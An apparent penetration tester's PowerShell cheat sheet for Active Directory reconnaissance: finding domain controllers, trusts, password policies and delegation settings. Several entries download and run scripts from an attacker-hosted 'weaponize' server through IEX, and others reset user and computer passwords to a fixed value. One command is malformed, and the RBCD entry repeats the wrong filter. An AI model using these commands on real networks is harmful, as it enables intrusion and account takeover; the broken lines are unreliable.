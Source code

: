 # pwsh
% windows, Active Directory, powershell

#plateform/windows #target/local #cat/RECON/AD #tag/powershell 


## AD - Install the AD Module
```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online;gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## AD - load AD Module from http (PS1)
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1
```
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/PrivescCheck.ps1') | IEX; Import-ActiveDirectory
```

## AD - load AD Module from http (dll)
```
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/dll/Microsoft.ActiveDirectory.Management.dll', '<windows_writable_path>\Microsoft.ActiveDirectory.Management.dll)' | IEX; Import-Module <path>\Microsoft.ActiveDirectory.Management.dll; Get-Command -Module Microsoft.ActiveDirectory.Management
```

## AD - get current DC
```
$env:LOGONSERVER
```

## AD - get DC of a domain (nslookup)
```
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain_fqdn>
```

## AD - get DC of a trusted domain 
```
Get-ADDomainController -DomainName  <trusted_domain> -Discover
```

## AD - get password policy (user)
```
Get-ADUserResultantPasswordPolicy -Identity <user>
```

## AD - get password policy (default)
```
Get-ADDefaultDomainPasswordPolicy
```

## AD - show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## AD - show forest trust (get-adtrust)
SIDFilteringForestAware is set to True, it means SIDHistory is enabled across the forest trust.
```powershell
get-adtrust -filter * | select name,target,sid*
```

## AD - Get domain trust
```powershell
Get-DomainTrust -Domain <domain_fqdn>
nltest.exe /DOMAIN_TRUSTS
```

## AD - Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## AD - Get trash object
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```


## AD - Constrained delegation (all)
```powershell
Get-ADComputer -LDAPFilter "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" -Properties msds-allowedtodelegateto;Get-ADUser -LDAPFilter "(msds-allowedtodelegateto=*)" -Properties msds-allowedtodelegateto; Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=16777216)" -Properties msds-allowedtodelegateto;Get-ADUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=16777216)" -Properties msds-allowedtodelegateto
```

## AD - Constrained delegation (protocol transition)
```powershell
Get-ADComputer -LDAPFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=16777216)(msds-allowedtodelegateto=*))" -Properties msds-allowedtodelegateto;Get-ADUser -LDAPFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=16777216)(msds-allowedtodelegateto=*))" -Properties msds-allowedtodelegateto
```


## AD - Unconstrained delegation
```powershell
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```

## AD - RBCD
```powershell
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```



## AD - reset password (user)
```powershell
Set-ADAccountPassword -Identity <user> -NewPassword (ConvertTo-SecureString -AsPlainText 'Jubeaz12345+-' -Force)
```

## AD - reset password (computer)
```powershell
Set-ADAccountPassword -Identity <computer>$ -NewPassword (ConvertTo-SecureString -AsPlainText 'Jubeaz12345+-' -Force)
```